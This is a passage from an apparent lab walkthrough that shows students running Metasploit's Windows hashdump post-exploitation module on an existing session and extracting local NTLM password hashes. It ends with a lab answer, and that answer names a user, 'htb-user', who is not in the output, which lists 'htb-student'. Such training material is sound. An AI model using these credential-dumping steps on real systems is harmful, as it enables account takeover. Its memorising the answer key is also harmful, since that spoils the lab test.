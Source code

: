 Now only modules for the Windows operating system are shown, and the one required holds the tag number 3, thus students need to use/select it:

```shell
use 3
```
```
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > use 3
```

After using the `show options` command, students will know that the only option that needs to be set is `SESSION`:

```shell
set SESSION 1
```
```
msf6 post(windows/gather/hashdump) > set SESSION 1

SESSION => 1
```

Students at last will need to run/launch the post-exploitation module using the `run` command:

```shell
run
```
```
msf6 post(windows/gather/hashdump) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY c897d22c1c56490b453e326f86b2eef8...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...

Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::

[*] Post module execution completed
```

The NTLM password hash of the user `htb-user` is `cf3a5525ee9414229e66279623ed5c58`.

Answer: `cf3a5525ee9414229e66279623ed5c58`